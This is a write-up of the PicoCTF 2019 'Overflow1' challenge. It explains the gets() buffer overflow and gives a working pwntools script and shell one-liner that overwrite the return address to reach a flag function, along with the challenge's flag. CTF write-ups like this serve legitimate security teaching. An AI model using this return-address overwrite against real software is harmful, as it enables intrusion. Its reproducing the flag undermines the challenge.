 # PicoCTF 2019 - Binary Exploit - Overflow1

Simple buffer overflow,
the actual vulnerability is inside the function 'vuln'

## The vulnerability
it calls 'gets', a function that is known the be very dangerous (it even says it in the man page to never use this function)
The reason this function is dangerous is because of how it works:
'gets(char \*s)  reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\\0').  No check for buffer overrun is performed'
So it keeps reading input, even if this is way bigger then the amount of memory allocated for that string
Causing it the overwrite values from the stack

## Exploiting it
The plan is to overwrite the return address by overflowing the buffer and rewriting the values on the stack.

First we need to find the buffer (how many characters are allocated to fit in the given string)

We are given the source code so we can see the 'buffsize' variable which is the used buffer here for our string, so our string is allocated to hold 64 characters

so if we give as input a string of 64 characters + 4 characters we are overflowing our buffer.. yay :)

but we arent overwriting our return pointer yet, its still a few bytes out of range!

if we dissassembly and go through the 'vuln' function step by step we can see the return address gets loaded from [ebp-0x4]
so lets walk through the program

___Registers note___;

* __esp__ = the stack pointer; it points to where the stack begins (the 'top' of the stack)

* __ebp__ = the stack frame pointer;

The stack grows from esp -> ebp -> and past it 
(we actually overwrite ebp aswell in this overflow)

![picture alt](https://i.gyazo.com/4f6fe4c601e114590933f72ca9aa6f54.png)

As you can see, using a string "A" of length 64 we are still, 3 addresses of overwriting the return pointer to main
The address we want to overwrite is  `0x08048705` - it points to main+103
so we need to add 12 bytes to our overflow + another 4 of the address we want to jump to which is the flag function ( located @ `0x080485e6` )

Here is another picture of a slighlty modified overflow

the string used was "A" * 64 + "B" * 12

![picture alt](https://i.gyazo.com/14afae29edec7341bbc230d6743d7574.png)

As you can see adding the 12 more bytes puts the main address (`0x08048700`) right next to us 
(idk why it now points to main+98 and +103 earlier) 
now all that is left is to write the remaining 4 bytes as a address to the function we want

now to write our exploit script, i used python & pwntools (note: this is setup to work locally, if you want it to work on the picoCTF server check exploit.py -i couldnt get the script to work properly using the pwntools ssh so you are supposed to run it manually now);

```python
from pwn import *
# Flag function is located @ 0x080485e6
flag_function = util.packing.p32(0x080485e6)
# overwrite our buffer + the 3 other addresses we dont need
buff = "A" * 64 + "B" * 12
payload = buff + flag_function
p = process("./vuln")
p.recvuntil("")
p.sendline(payload)
print p.recvall()
```

I had some trouble with the script but the output should be something like:
```
Sain@pico-2019-shell1:/problems/overflow-1_4_6e02703f87bc36775cc64de920dfcf5a$ python -c "print 'A' * 76 + '\xe6\x85\x04\x08'" | ./vuln
Give me a string and lets see what happens:
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5bbbf8810}Segmentation fault (core dumped)
```